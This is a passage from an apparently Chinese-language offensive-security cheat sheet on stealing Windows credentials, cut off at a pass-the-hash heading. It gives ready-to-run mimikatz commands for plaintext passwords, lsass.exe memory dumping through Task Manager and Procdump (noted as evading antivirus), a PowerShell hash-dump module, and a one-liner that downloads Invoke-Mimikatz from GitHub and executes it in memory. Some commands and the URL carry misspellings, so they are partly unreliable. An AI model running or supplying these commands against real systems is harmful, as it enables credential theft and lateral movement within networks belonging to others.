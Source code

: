 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz.exe "privilege::debug" "log" "sekurlsa::loginpasswords" <br>``` |

##### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E7%A6%BB%E7%BA%BF%E8%AF%BB%E5%8F%96-lassdmp-%E6%96%87%E4%BB%B6)使用 mimikatz 离线读取 lass.dmp 文件

###### [](#%E5%AF%BC%E5%87%BA-lassdmp-%E6%96%87%E4%BB%B6)导出 lass.dmp 文件

-   使用任务管理器导出 lsass.dmp 文件

任务管理器找到 `lsass.exe` 进程，右键，选择“Create Dump File”选项

-   使用 Procdump 导出 lsass.dmp 文件

微软官方发布的工具，免杀

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>Procdump.exe -accepteula -ma lsass.exe lsass.dmp<br>``` |

###### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E5%AF%BC%E5%87%BA-lsassdmp-%E6%96%87%E4%BB%B6%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81%E5%80%BC)使用 mimikatz 导出 lsass.dmp 文件中的密码值

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>sekurlsa::mimidump lsass.dmp<br>sekurlsa::logonpasswords full<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E5%AF%B9%E6%95%A3%E5%88%97%E5%80%BC%E8%BF%9B%E8%A1%8C-dump-%E6%93%8D%E4%BD%9C)使用 Powershell 对散列值进行 Dump 操作

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Import-Module .\Get-PassHashes.ps1<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BD-mimikatz-%E6%8A%93%E5%8F%96%E6%95%A3%E5%88%97%E5%80%BC%E5%92%8C%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81)使用 Powershell 远程加载 mimikatz 抓取散列值和明文密码

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PwoerSploit/master/Exfilration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"<br>``` |

## [](#%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92%E6%94%BB%E5%87%BB)哈希传递攻击

### [](#%E4%BD%BF%E7%94%A8-ntlm-hash-%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 NTLM Hash 进行哈希传递
